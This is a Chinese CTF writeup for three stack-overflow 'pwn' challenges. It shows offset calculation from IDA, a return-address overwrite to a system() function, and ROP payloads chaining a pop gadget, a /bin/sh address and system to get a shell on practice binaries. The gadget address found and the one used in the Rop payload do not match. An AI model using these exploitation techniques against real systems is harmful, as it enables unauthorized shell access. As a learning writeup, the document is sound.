 ```yaml
---
author: 赤道企鹅
date: 2019-9-16
group: binary
---
```

# Writeup

## Pwn

### 一、EasyPwn题解

**第一步**：打开IDA分析题目下载的程序发现有一个可以被pwn的关键函数 **gets()。**检查汇编代码发现在调用**gets()**前有一条**lea     rax, [rbp-70h]**指令。注意此时不要把偏移量当成70，进制转换后得出112，还要在加上64位程序一开始 **push rbp**占用的8个字符得出溢出所需字符为120*“A”。

**第二步**：检查IDA的函数发现**foo()**函数调用了system可以getshell，于是想办法溢出后将返回地址覆盖为**foo()**的地址**（0x00000000004006B6）。**

**第三步**：构造payload为**payload="A"\*120+p64(0x00000000004006B6)** pwn一下就可以拿到flag了。

### 二、Rop题解

**第一步**：rop相比于之前复杂度较高，但是还是要先分析题目程序。用之前的方法分析得出溢出所需字符为**A\*“12”**，虽然这题没有现成的**system(“/bin/sh”)**，但是有**system()**函数。进一步检查IDA中的字符串列表发现了**.data:0000000000601070    00000008 C   /bin/sh**说明应该想办法把这个字符串作为参数去调用**system()**来getshell。

**第二步**：查阅资料发现，64位程序调用函数首先需要把参数存入寄存器当中，主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。也就是说需要用gadgets把字符和寄存器联系起来（抱歉我只能理解到这个层面）。**

**第三步：使用ROPgadget --binary rop1查找合适的gadgets得到一个（0x00000000004008dd）**

**第四步：开始构造payload**

 **payload="A"\*12+p64(0x00000000004008e3)+p64(0x0000000000601070)+p64(0x0000000000400805)**

​      **解释：payload = "A"\*12 + p64(pop_ret_addr)+ p64(binsh_addr)+ p64(system_addr)**

​      **用这个pyaload pwn之后即可得到flag**

### 三、Rop2题解

这题难点在于没有了/bin/sh，但是有输入函数，需要把/bin/sh输入到合适的位置后放进寄存器中再调用system函数。

By the way，这个方法可以快速找到call函数地址免得麻烦

elf=ELF('./rop2')

sys_addr=p64(elf.symbols["system"])

get_addr=p64(elf.symbols["gets"])

既然要输入到合适位置那么就要寻找可读写的段，于是在IDA的段视图中找到了**.bss      00000000006010F0  0000000000601110  R   W**这么一个可读写的bss段。同样的，要作为输入函数的参数也需要一个gadgets，同样的方法找到gadgets为**0x00000000004008e3**这个gadgets需要用两次，一次输入，一次system，最后得出payload
